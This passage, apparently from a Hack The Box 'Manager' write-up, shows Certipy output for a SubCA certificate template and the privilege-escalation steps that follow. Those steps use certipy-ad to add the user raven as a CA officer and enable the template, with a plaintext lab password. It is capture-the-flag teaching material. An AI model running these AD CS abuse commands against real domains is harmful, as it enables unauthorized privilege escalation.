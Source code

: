 {% vimhl bash %}
  15
    Template Name                       : SubCA
    Display Name                        : Subordinate Certification Authority
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
{% endvimhl %}

<br>

### Privilege Escalation

grant yourself Manage Certificates access by adding your user as officer

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad ca -add-officer raven -ca 'manager-DC01-CA' -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -dc-ip 10.129.46.174 
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
{% endvimhl %}

<br>
enable the SubCA template

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad ca -ca 'manager-DC01-CA' -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -enable-template 'SubCA' -dc-ip 10.129.46.174 
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
{% endvimhl %}
